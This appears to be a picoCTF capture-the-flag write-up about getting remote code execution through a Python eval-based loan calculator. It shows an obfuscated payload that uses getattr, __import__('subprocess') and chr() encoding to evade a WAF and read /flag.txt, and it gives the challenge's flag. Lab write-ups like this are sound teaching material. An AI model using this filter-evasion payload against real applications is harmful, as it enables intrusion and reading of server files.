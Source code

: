 # URL
https://play.picoctf.org/practice/challenge/484?originalEvent=74&page=2&search=
# Challenge
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

# Method of Solving
* So my initial thought process was how could I encode a commonly used injection: __import__('os').system('cat /flag.txt'))
* The hints provided some clues to me, notably: You might need encoding or dynamic construction to bypass restrictions.
* So, first to circumvent the dot restriction, I decided to use the Python getattr() function: getattr(__import__('o' + 's'), 'system')('cat /flag.txt') ->  retrieve the value of a named attribute from an object -> i.e, retrieve system
* However, os.system() does not return command output; if I wanted to output something, I needed subprocess, namely subprocess.check_output
* That line of reasoning led me to create this -> getattr(__import__('subprocess'), 'check_output')
* Now I need to create a way to cat /flag.txt without invoking the WAF
* Basic encoding can help me here cat -> Asciitable.com -> chr(99) + chr(97) + chr(116); / -> chr(47)
* The rest is dynamically constructed, then converts the byte output into a string.

```
getattr(__import__('subprocess'), 'check_output')([chr(99) + chr(97) + chr(116), chr(47) + 'f' + 'l' + 'a' + 'g' + '.' + 't' + 'x' + 't']).decode()
```
* This code returns the flag: picoCTF{D0nt_Use_Unsecure_f@nctionsb95fffac}
